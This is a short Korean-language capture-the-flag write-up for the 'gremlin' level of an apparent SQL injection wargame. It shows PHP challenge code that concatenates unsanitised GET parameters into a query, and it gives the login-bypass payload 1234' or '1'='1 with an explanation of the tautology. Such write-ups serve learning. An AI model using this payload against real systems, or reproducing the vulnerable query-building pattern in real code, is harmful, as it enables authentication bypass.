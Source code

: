 # gremlin

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 작은 따옴표(0x27)를 필터링 하지 않고 있다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234' or '1'='1

가장 기본적인 sql-injection예제이다.

해당 값을 보내면, query 속 조건은 다음과 같다.

**select id from prob_gremlin where <span style="color:blue">id='1234' and pw='1234'</span> or <span style="color:red">'1'='1' </span>**

조건문은 <span style="color:blue">파랑</span>부분과, <span style="color:red">빨강</span>부분으로 나누어 생각하면 쉽다.
두 조건문 중 하나만 참이어도 참이 되므로, id를 가져오게 된다.